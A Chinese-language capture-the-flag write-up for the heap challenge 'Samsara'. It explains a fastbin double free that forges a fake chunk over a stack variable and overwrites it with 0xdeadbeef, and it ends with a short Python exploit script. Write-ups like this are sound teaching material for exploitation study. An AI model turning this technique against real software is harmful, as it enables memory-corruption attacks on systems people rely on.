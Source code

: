 # Samsara
又一道堆题，应该是最难的Pwn题。

逆向可以知道每次抓人都执行`malloc(8)`，我们不能控制分配的大小。那么在释放的时候，chunk必定进入fastbin。操作3就是编辑chunk的内容，不存在溢出。但是这题有两个奇怪的操作：输入4会打印出栈上变量`lair`的位置，输入5会改变`lair`的值。最后，退出程序时，检查栈上变量`target`是否等于`0xdeadbeef`，如果等于就能getflag，但是整个程序中不存在对`target`的任何读写操作。

漏洞点在于`free`之后没有置指针为NULL，考虑`double free`。首先分配三个chunk，按`chunk0->chunk1->chunk0`的顺序释放，第二次释放`chunk0`时它不在对应fastbin的头部，因此不会被检测到。再申请两次分别得到`chunk3`和`chunk4`，按first-fit原则前者即`chunk0`，后者即`chunk1`，但此时`chunk0`依然会留在fastbin中。

接下来，我们在`target`附近伪造chunk。我们逆向发现`lair`在`target`上方8B处，因此先输入4，设置`lair=0x20`以伪造`chunk_size`。然后输入5得到`&lair`，那么`&lair-8`处就是伪造的chunk的chunk指针。伪造好以后，我们向`chunk3`即`chunk0`的`fd`写入`&lair-8`。此时，fastbin内就变成了`chunk0->fake_chunk`，申请一次得到`chunk0`，第二次得到`fake_chunk`。

此时向`fake_chunk`写数据，等价于向`(&lair-8) + 0x10`也就是`target`写数据，写入`0xdeadbeef`并退出程序即可。
```py
def add():
	sla('> ','1')

def delete(index):
	sla('> ','2')
	sla(':\n',str(index))

def edit(index,content):
	sla('> ','3')
	sla(':\n',str(index))
	sla(':\n',content)

def show():
	sla('> ','4')
	ru('0x')
	return int(ru('\n'),16)

def move(dest):
	sla('> ','5')
	sla('?\n', str(dest))

add() # 0
add() # 1
add() # 2
delete(0)
delete(1)
delete(0)

add() # 3 <-> 0
add() # 4
move(0x20)
fake = show()-8
edit(3,fake)
add() # 5
add() # 6
edit(6,0xdeadbeef)
sla('> ','6')
```